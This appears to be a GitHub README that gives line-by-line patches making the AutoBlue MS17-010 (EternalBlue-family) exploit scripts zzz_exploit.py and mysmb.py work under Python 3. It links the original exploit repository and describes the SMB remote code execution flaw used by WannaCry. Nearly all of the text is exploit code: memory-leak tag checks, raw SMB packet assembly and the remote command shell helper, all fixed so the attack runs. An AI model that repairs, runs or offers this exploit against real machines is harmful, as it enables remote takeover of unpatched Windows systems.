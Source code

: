 # AutoBlue MS17-010 Python 3 Fix

This repo provides suggestions to fix the Python 3 version of the AutoBlue-MS17-010 Exploit Code, specifically addressing the issue related to the interaction of variables with `bytes` and `str` types in the Python scripts `mysmb.py` and `zzz_exploit.py`.

The original repository containing all the exploit files can be accessed at: https://github.com/3ndG4me/AutoBlue-MS17-010

MS17-010 is a security vulnerability in Microsoft Windows operating systems that was discovered in March 2017. The exploit allows an attacker to remotely execute code on a target system by sending specially crafted packets to the Windows Server Message Block (SMB) protocol. This vulnerability was famously exploited by the WannaCry ransomware attack in May 2017, which affected hundreds of thousands of computers worldwide. Microsoft released a patch to fix the vulnerability shortly after it was discovered.

### The suggested changes for `zzz_exploit.py`:

- Substitute `str` by `bytes`:
    ```python
    Original:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    321        if leakData[X86_INFO['FRAG_TAG_OFFSET']:X86_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Substitute:
    ```python
    Original:
    324        info['FRAG_POOL_SIZE'] = ord(leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ]) * X86_INFO['POOL_ALIGN']
    ---
    Modified:
    324        info['FRAG_POOL_SIZE'] = leakData[ X86_INFO['FRAG_TAG_OFFSET']-2 ] * X86_INFO['POOL_ALIGN']
    ```

- Substitute  `str` by `bytes`:
    ```python
    Original:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == 'Frag':
    ---
    Modified:
    325        elif leakData[X64_INFO['FRAG_TAG_OFFSET']:X64_INFO['FRAG_TAG_OFFSET']+4] == b'Frag':
    ```

- Substitute:
    ```python
    Original:
    328        info['FRAG_POOL_SIZE'] = ord(leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ]) * X64_INFO['POOL_ALIGN']
    ---
    Modified:
    328        info['FRAG_POOL_SIZE'] = leakData[ X64_INFO['FRAG_TAG_OFFSET']-2 ] * X64_INFO['POOL_ALIGN']
    ```

- Substitute:
    ```python
    Original:
    399        conn.send_raw(req1[-8:]+req2+req3+''.join(reqs))
    ---
    Modified:
    399        conn.send_raw(req1[-8:] + req2 + req3 + b''.join(reqs))
    ```

- Substitute:
    ```python
    Original:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != 'Frag':
    ---
    Modified:
    418        if leakData[info['FRAG_TAG_OFFSET']:info['FRAG_TAG_OFFSET']+4] != b'Frag':
    ```

- Substitute:
    ```python
    Original:
    429        if leakData[0x4:0x8] != 'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ---
    Modified:
    429        if leakData[0x4:0x8] != b'LStr' or leakData[info['POOL_ALIGN']:info['POOL_ALIGN']+2] != expected_size or leakData[leakTransOffset+2:leakTransOffset+4] != expected_size:
    ```

### The suggested changes for `mysmb.py`:

- Substitute:
    ```python
    Original:
    3          from impacket import smb, smbconnection, smbserver
    ---
    Modified:
    3          from impacket import smb, smbconnection
    ```

- Remove
    ```python
    Original:
    9          try:
    10             import ConfigParser
    11         except ImportError:
    12             import configparser as ConfigParser
    ```

- Remove:
    ```python
    Original:
    17         SMBSERVER_DIR   = '__tmp'
    18         DUMMY_SHARE     = 'TMP'
    ```

- Substitute:
    ```python
    Original:
    89         transData += (b'\x00' * padLen) + str.encode(data)
    ---
    Modified:
    83         if (type(data) == bytes):
    84             transData += (b'\x00' * padLen) + data
    85         else:
    86             transData += (b'\x00' * padLen) + data.encode('utf-8')
    ```

- Substitute:
    ```python
    Original:
    420        self.__output = '\\\\%COMPUTERNAME%\\{}\\{}'.format(self.__share,self.__outputFilename)
    ---
    Modified:
    417        self.__output = '\\\\127.0.0.1\\{}\\{}'.format(self.__share,self.__outputFilename)
    ```

- Substitute:
    ```python
    Original:
    483        self.prompt = self.__outputBuffer.decode(errors='replace').replace('\r\n','') + '>'
    ---
    Modified:
    489        self.prompt = self.__outputBuffer.decode().replace('\r\n','') + '>'
    ```

- Substitute:
    ```python
    Original:
    502        output_callback(fd.read().encode('utf-8'))
    ---
    Modified:
    499        output_callback(fd.read())
    ```

- Substitute:
    ```python
    Original:
    528        print(self.__outputBuffer.decode(errors='replace'))
    ---
    Modified:
    525        print(self.__outputBuffer.decode())
    ```

- Substitute:
    ```python
    Original:
    566        smbConfig.set('IPC$','path','')
    ---
    Modified:
    563        smbConfig.set('IPC$','path')
    ```
